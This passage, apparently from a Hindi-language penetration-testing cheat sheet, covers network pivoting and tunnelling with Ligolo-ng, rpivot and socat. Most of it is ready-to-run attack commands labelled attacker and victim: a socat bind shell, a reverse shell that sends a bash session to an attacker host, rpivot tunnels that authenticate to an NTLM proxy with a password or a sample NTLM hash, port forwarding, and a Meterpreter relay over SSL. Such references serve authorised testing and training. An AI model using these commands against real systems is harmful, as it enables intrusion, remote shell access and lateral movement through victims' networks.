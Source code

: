 ### एक्सेस एजेंट के स्थानीय पोर्ट्स
```bash
# Establish a tunnel from the proxy server to the agent
# Create a route to redirect traffic for 240.0.0.1 to the Ligolo-ng interface to access the agent's local services -- Attacker
interface_add_route --name "ligolo" --route 240.0.0.1/32
```
## Rpivot

[https://github.com/klsecservices/rpivot](https://github.com/klsecservices/rpivot)

रिवर्स टनल। टनल पीड़ित से शुरू होती है।\
127.0.0.1:1080 पर एक socks4 प्रॉक्सी बनाई जाती है।
```bash
attacker> python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999
```
**NTLM प्रॉक्सी** के माध्यम से पिवट करें
```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --password P@ssw0rd
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```
## **Socat**

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

### बाइंड शेल
```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:1337
```
### रिवर्स शेल
```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```
### Port2Port
```bash
socat TCP4-LISTEN:<lport>,fork TCP4:<redirect_ip>:<rport> &
```
### Port2Port through socks
```bash
socat TCP4-LISTEN:1234,fork SOCKS4A:127.0.0.1:google.com:80,socksport=5678
```
### SSL Socat के माध्यम से Meterpreter
```bash
#Create meterpreter backdoor to port 3333 and start msfconsole listener in that port
attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333
```
